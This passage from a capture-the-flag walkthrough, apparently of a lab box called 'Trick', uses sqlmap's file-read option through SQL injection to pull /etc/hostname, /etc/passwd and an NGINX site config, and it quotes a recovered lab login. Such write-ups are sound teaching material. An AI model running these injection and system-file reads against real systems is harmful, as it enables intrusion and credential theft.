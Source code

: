 One user, with username Enemigosss, and password “SuperGucciRainbowCake”. I’ll note these both.

#### File Read with sqlmap

SQL can be configured such that I can read files through the injection. `sqlmap` allows this with the `--file-read` parameter. It works:

```

oxdf@hacky$ sqlmap -r login.req --batch --threads 10 --file-read=/etc/hostname
...[snip]...
[*] /home/oxdf/.sqlmap/output/preprod-payroll.trick.htb/files/_etc_hostname (same file)
...[snip]...
oxdf@hacky$ cat /home/oxdf/.sqlmap/output/preprod-payroll.trick.htb/files/_etc_hostname 
trick

```

I’ll read the `/etc/passwd` file the same way. It takes a few minutes, but it comes back. I’ll look for users that have a shell set (removing the machine accounts), and see a couple:

```

oxdf@hacky$ cat /home/oxdf/.sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash

```

### Find Marketing Subdomain

#### Via SQL Injection

The intended path for this box is to use the SQL injection file read to get the NGINX config. I know it’s NGINX from the initial enumeration. The default config file would be at `/etc/nginx/sites-enabled/default`. I’ll pull that file with `sqlmap`, and it returns information about three virtual hosts (vhosts).

The first is for `trick.htb`, and it’s the default server, which is why visiting by IP leads there as well:

```

server {
        listen 80 default_server;
        listen [::]:80 default_server;
        server_name trick.htb;
        root /var/www/html;

        index index.html index.htm index.nginx-debian.html;

        server_name _;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }
}

```
